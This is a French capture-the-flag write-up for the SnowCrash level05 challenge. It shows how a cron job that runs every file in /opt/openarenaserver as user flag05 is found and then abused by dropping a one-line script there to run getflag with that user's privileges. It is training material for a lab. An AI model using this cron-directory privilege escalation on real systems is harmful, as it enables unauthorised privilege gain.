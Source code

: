 On remarque le message "You have new mail.", ce qui peut indiquer une information intéressante envoyée par le système. On inspecte les variables d’environnement avec `env`

```bash
You have new mail.
level05@SnowCrash:~$ ls
level05@SnowCrash:~$ env
...
MAIL=/var/mail/level05
...
```

En lisant le contenu de ce fichier, on découvre une tâche cron :

```bash
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Cette ligne signifie qu’un script (`/usr/sbin/openarenaserver`) est exécuté toutes les 2 minutes en tant qu’utilisateur `flag05`.

```bash
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
Le script parcourt tous les fichiers dans `/opt/openarenaserver/`, les exécute avec bash dans un environnement restreint (limité à 5 secondes CPU via `ulimit`), puis les supprime.

Exploitation du script avec getflag

`echo "/bin/getflag > /tmp/result" > /opt/openarenaserver/test`